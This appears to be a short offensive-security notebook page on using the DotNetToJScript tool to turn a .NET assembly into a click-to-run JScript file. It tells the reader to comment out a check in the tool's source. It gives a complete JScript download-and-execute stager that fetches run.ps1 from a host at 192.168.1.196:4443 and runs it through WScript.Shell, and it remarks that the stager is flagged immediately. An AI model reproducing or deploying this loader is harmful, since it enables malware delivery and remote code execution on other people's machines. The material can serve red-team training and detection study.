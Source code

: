 # How to use DOTNET to JScript

** Usage: DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js **

*** This will make a .js file that if associated with wscript with execute when clicked.  This is not a default setting ***.
*** Seems like everything in Jscript uses ActiveXObject ***

[It is worth mentioning that Jscript supports proxy configuration via the setProxy method.](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29)


### Configuring DotNetToJscript 

Before moving forward, we first need to comment out the following portion of the Program.cs source code file present under the DotNetToJScript project.  

At line 154, we need to comment out the following if-block.  

<img width="710" height="122" alt="image" src="https://github.com/user-attachments/assets/f0b6156a-0df2-478a-a2b7-34162afbd226" />




#### Basic Jscript runner that will download a file.  Flagged immediately.

``` Jscript

var url = "http://192.168.1.196:4443/run.ps1"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("run.ps1", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("run.ps1");

```
